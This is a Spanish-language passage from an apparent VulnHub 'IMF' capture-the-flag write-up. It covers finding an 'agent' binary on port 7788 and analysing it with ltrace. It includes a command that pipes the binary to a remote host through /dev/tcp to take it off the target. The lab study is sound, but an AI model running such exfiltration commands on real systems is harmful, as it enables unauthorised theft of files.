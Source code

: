 Al enumerar el sistema encontraremos que por el puerto 7788 esta corriendo un programa llamado **agent** el cual reside en la ruta `/usr/local/bin/`.

![](/assets/images/VulnHub/IMF/7788.png)

Decidí traerme el binario a mi máquina local para poder analizarlo más comodamente.

```bash
cat < /usr/local/bin/agent > /dev/tcp/192.168.1.131/443
```

Cuando ejecutamos el programa nos pide un **ID** el cual no conocemos pero con la herramienta `ltrace` podemos saber el ID.

![](/assets/images/VulnHub/IMF/agentID.png)
